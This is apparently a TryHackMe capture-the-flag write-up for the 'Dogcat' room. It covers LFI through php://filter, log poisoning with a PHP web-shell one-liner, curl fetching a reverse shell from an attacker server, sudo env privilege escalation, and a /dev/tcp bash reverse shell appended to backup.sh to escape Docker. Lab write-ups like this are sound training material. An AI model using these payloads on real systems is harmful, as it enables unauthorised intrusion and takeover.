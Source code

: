 ```yaml
---
layout: post
title: Dogcat
categories: [Tryhackme, Medium]
tags: [LFI, RCE, SUID]
image: https://i.ibb.co/0XX1s2Q/DogCat.png
---
```


Hello guys and welcome to yet another Tryhackme writeup. Today we will be handling a medium room which is accessible [here](https://tryhackme.com/room/dogcat).

Well the methodology is quite similar to the Archangel methodology with quite a twist. Let's begin.

## ACCESSING THE WEBPAGE

So I ran an NMAP scan but that was not so productive, so I went directly into the site. 

First we see that the site has two buttons which when we click on dog for example, we get a picture of a dog.
![1](https://i.ibb.co/1K4zM53/dog.png)

Looking closely at our URL we see that it is using the view paramater. Well that is interesting. Let us try and traverse that, using the **php://filter/convert.base64-encode/resource=./dog/../index**. 

![2](https://i.ibb.co/0mQn4pH/base64filter.png)

We can then see a base64 code on there. Let us decode it.

![3](https://i.ibb.co/JH3p0rm/base64decode.png)

We get to see some php code which when we look closely at the filters we see that **ext** can be used to remove the .php which is automatically added at the end of the URL. 

## ACCESS LOGS

Let us use this parameter to view the access logs. 

![4](https://i.ibb.co/gM1tmZP/accesslog.png)

Success! Next we are going to try and do some poisoning on the User-Agent using **<?php system($_GET['cmd']);?>**. 

If you are not familiar on how to do that check the Archangel writeup.  

Next let us try and run a command using **&cmd=whoami**

![5](https://i.ibb.co/x12dj5X/whoami.png)

We can see that we are www-data.

## REVERSE SHELL
Now we are going to try and get a reverse shell. We can get one from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make sure to make the necessary changes to the ip and port.

Next we are gonna run a python server on our machine using **python -m http.server 80**. Then run **&cmd= curl -o revshell.php ip/revshell.php**. 

Using wget was not so successfull. We then should check our python server for a 200 status code.
With that done we can run our listener on our machine and run **&cmd= php revshell.php**, then check back on our machine for a connection.

![6](https://i.ibb.co/t2Fx0MG/revshell.png)

Smooth!

## ROOT
Next we are gonna run **sudo -l** which checks the SUID capabilities. 

![7](https://i.ibb.co/LpBsvj2/sudo.png)

Well we see that www-data can run the command as root. So looking at [GTFO bins](https://gtfobins.github.io/) we can see that we can exploit this by using **sudo env /bin/sh**

And we are root. 
![8](https://i.ibb.co/VV2LmmZ/root.png)

## ESCAPING DOCKER

This was not straight forward since we are supposed to look for the last flag outside the container. But it is not that hard.

As we are moving around we see a file backup.sh which sort of connects to the Host and the container. We can exploit this by running the following command.

**echo "bash -i >& /dev/tcp/ip/port 0>&1" >> backup.sh**

Then start up a listener on your machine and success we are in the host.

![9](https://i.ibb.co/qDSmNyk/container.png)

## RESOURCES 

[BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
[PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Be sure to read the following articles for much better understanding. Happy hacking :)